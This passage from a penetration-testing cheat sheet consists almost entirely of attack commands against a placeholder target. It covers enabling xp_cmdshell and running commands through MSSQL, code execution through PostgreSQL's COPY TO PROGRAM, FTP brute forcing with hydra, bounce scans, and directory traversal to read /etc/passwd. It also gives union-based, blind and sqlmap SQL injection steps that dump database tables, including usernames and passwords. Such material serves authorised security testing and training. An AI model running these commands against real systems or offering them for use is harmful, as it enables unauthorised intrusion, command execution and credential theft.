 ```bash
# or
sqsh -S target_ip -U username -P password

# MSSQL command execution
xp_cmdshell 'whoami'
sp_configure 'show advanced options', 1
sp_configure 'xp_cmdshell', 1

# PostgreSQL exploitation
psql -h target_ip -U username -d database
# PostgreSQL code execution
COPY (SELECT '') TO PROGRAM 'id';
```

### FTP Service Exploitation:
```bash
# Anonymous FTP access
ftp target_ip
# Username: anonymous
# Password: (blank or email)

# FTP bounce attacks
nmap -b ftp_relay_host target_ip

# FTP brute force
hydra -l anonymous -P passwords.txt ftp://target_ip
hydra -L users.txt -P passwords.txt ftp://target_ip

# FTP directory traversal
ftp> cd ../../../etc
ftp> get passwd
```

## ⚙️ Web Application Exploitation Fundamentals

### SQL Injection Exploitation:
```bash
# Manual SQL injection testing
curl "http://target_ip/page.php?id=1'"
curl "http://target_ip/page.php?id=1 AND 1=1"
curl "http://target_ip/page.php?id=1 AND 1=2"

# Union-based SQL injection
curl "http://target_ip/page.php?id=1 UNION SELECT 1,2,3,4"
curl "http://target_ip/page.php?id=1 UNION SELECT null,username,password,null FROM users"

# Automated SQL injection with SQLMap
sqlmap -u "http://target_ip/page.php?id=1"
sqlmap -u "http://target_ip/page.php?id=1" --dbs
sqlmap -u "http://target_ip/page.php?id=1" -D database --tables
sqlmap -u "http://target_ip/page.php?id=1" -D database -T users --dump

# Time-based blind SQL injection
curl "http://target_ip/page.php?id=1 AND SLEEP(5)"
sqlmap -u "http://target_ip/page.php?id=1" --technique=T
```

